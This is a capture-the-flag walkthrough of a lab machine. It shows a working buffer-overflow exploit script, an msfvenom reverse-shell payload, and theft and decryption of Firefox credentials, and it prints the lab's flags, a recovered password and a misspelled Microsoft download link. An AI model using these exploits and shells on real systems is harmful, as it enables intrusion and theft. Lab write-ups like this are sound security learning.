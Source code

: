 # Gatekeeper

> Can you get past the gate and through the fire?

<br>

### Process:

1. port scan:
	- `sudo nmap -T4 -p- 10.10.92.209`
	- `nmap -T4 -A -p 135,139,445,3389,31337,49152,49153,49154,49155,49161 10.10.92.209 -Pn`
	- find interesting app running on port 31337
2. enumerate SMB:
	- find shares: `smbclient -L 10.10.92.209`
	- connect to share: `smbclient \\\\10.10.92.209\\Users -N`
	- get gatekeeper.exe file: `cd share` -> `get gatekeeper.exe`
3. find buffer overflow:
	- transfer gatekeeper.exe to Windows 10 (32-bit) machine and run with Immunity Debugger -- need "VCRUNTIME140.dll" to run so download this from [here](https://www.micorsoft.com/en-us/download/details.aspx?id=48145)
	- find EIP offset:
		- edit fuzzer.py:
		```python
		#!/usr/bin/env python3
		import socket, time, sys
		
		ip = "10.0.1.6"
		port = 31337
		timeout = 5
		prefix = ""
		string = "A" * 100

		while True:
		  try:
			with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
			  s.settimeout(timeout)
			  s.connect((ip, port))
			  print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
			  s.send(bytes(string + "\r\n", "latin-1"))
			  s.recv(1024)
		  except:
			print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
			sys.exit(0)
		  string += 100 * "A"
		  time.sleep(1)
		```
		- run gatekeeper.exe under Immunity Debugger and execute fuzzer.py -- crashed after 200 bytes
		- generate cyclic pattern: `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200`
		- edit exploit.py:
		```python
		#!/usr/bin/env python3
		import socket

		ip = "10.0.1.6"
		port = 31337
		prefix = ""
		offset = 0
		overflow = "A" * offset
		retn = ""
		padding = ""
		payload = "<cyclic_pattern>"
		postfix = ""

		buffer = prefix + overflow + retn + padding + payload + postfix

		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

		try:
		  s.connect((ip, port))
		  print("Sending evil buffer...")
		  s.send(bytes(buffer + "\r\n", "latin-1"))
		  print("Done!")
		except:
		  print("Could not connect.")
		```
		- in Immunity run: `!mona findmsp -distance 200`
		- EIP offset = 146
	- find bad chars:
		- in Immunity run: `!mona bytearray -cpb \x00`
		- copy and paste bytearray.txt C strings into exploit.py:
		```python
		#!/usr/bin/env python3
		import socket

		ip = "10.0.1.6"
		port = 31337
		prefix = ""
		offset = 146
		overflow = "A" * offset
		retn = "BBBB"
		padding = ""
		payload = "<bytearray>"
		postfix = ""

		buffer = prefix + overflow + retn + padding + payload + postfix

		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

		try:
		  s.connect((ip, port))
		  print("Sending evil buffer...")
		  s.send(bytes(buffer + "\r\n", "latin-1"))
		  print("Done!")
		except:
		  print("Could not connect.")
		```
		- restart gatekeeper.exe in Immunity and run exploit.py
		- in Immunity run: `!mona compare -f c:\mona\gatekeeper\bytearray.bin -a esp` -- found "\x00" and "\x0a" to be bad chars
		- in Immunity run: `!mona bytearray -cpb \x00\x0a`, remove "\x0a" from payload in exploit.py, restart gatekeeper.exe in Immunity, and execute exploity.py again
		- in Immunity run: `!mona compare -f c:\mona\gatekeeper\bytearray.bin -a esp` -- no more badchars
	- find jump address:
		- in Immunity run: `!mona jmp -r esp -cpb \x00\x0a`
		- found: "080414c3" or "080416bf"
	- create payload in msfvenom:
		- `msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.1.5 lport=1234 -f c -a x86 -b "\x00\x0a"`
	- copy C strings into exploit.py, edit return address, and add padding:
		```
		#!/usr/bin/env python3
		import socket

		ip = "10.0.1.6"
		port = 31337
		prefix = ""
		offset = 146
		overflow = "A" * offset
		retn = "\xc3\x14\x04\x08"
		padding = "\x90" * 16
		payload = (<msfvenom_payload>)
		postfix = ""

		buffer = prefix + overflow + retn + padding + payload + postfix

		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

		try:
		  s.connect((ip, port))
		  print("Sending evil buffer...")
		  s.send(bytes(buffer + "\r\n", "latin-1"))
		  print("Done!")
		except:
		  print("Could not connect.")
		```
	- restart gatekeeper.exe, setup listener in metasploit, and run exploit.py -- worked
4. exploit buffer overflow
	- change IP and payload in exploit.py and execute against real target -- success
	- user flag = **{H4lf_W4y_Th3r3}**
5. esclate privileges:
	- found Firefox.ini file
	- in meterpreter: `run post/windows/gather/enum_application` -- firefox installed
	- try to gather firefox credentials: `run /post/multi/gather/firefox_creds`
	- crack the credentials found:
		- download [firefox_decrypt.py](https://github.com/unode/firefox_decrypt)
		- setup the `~/.msf4/loot` directory as appropriate:
		```bash
		mv 20210723102451_default_10.10.29.53_ff.ljfn812a.cert_329354.bin cert9.db
		mv 20210723102452_default_10.10.29.53_ff.ljfn812a.cook_585541.bin cookies.sqlite
		mv 20210723102453_default_10.10.29.53_ff.ljfn812a.key4_817263.bin key4.db
		mv 20210723102453_default_10.10.29.53_ff.ljfn812a.logi_950792.bin logins.json
		```
		- run firefox decrypt: `python3 ~/firefox_decrypt/firefox_decrypt.py .`
	- credentials found = "mayor:8CL7O1N78MdrCIsV"
	- RDP into the machine and get the root flag:
		- `rdesktop 10.10.29.53 -u mayor` -> [password]
		- root flag = **{Th3_M4y0r_C0ngr4tul4t3s_U}**
